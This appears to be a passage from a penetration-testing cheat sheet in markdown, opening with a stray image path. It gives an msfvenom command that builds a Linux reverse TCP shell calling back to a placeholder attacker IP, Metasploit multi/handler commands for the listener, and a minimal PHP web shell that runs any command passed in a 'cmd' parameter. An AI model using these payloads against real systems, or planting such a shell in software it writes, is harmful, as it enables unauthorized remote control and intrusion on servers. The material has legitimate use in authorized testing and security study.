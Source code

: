```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf -o shell.elf
```

This command generates a reverse TCP shell payload for Linux in ELF format.

---

## Metasploit multi/handler

Metasploit's `multi/handler` is a versatile exploit handler used to receive connections from payloads generated by msfvenom or other methods.

### Setting Up a Listener

1. **Start Metasploit**:

   ```bash
   msfconsole
   ```

2. **Configure multi/handler**:

   ```bash
   use exploit/multi/handler
   set payload linux/x86/shell_reverse_tcp
   set LHOST <attacker-ip>
   set LPORT 4444
   exploit
   ```

---

## WebShells

WebShells are scripts uploaded to a web server to gain remote control over it. They can be written in various languages such as PHP, ASP, or JSP.

### Example PHP WebShell

```php
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
?>
```

This simple WebShell executes commands sent via the `cmd` parameter in a web request.
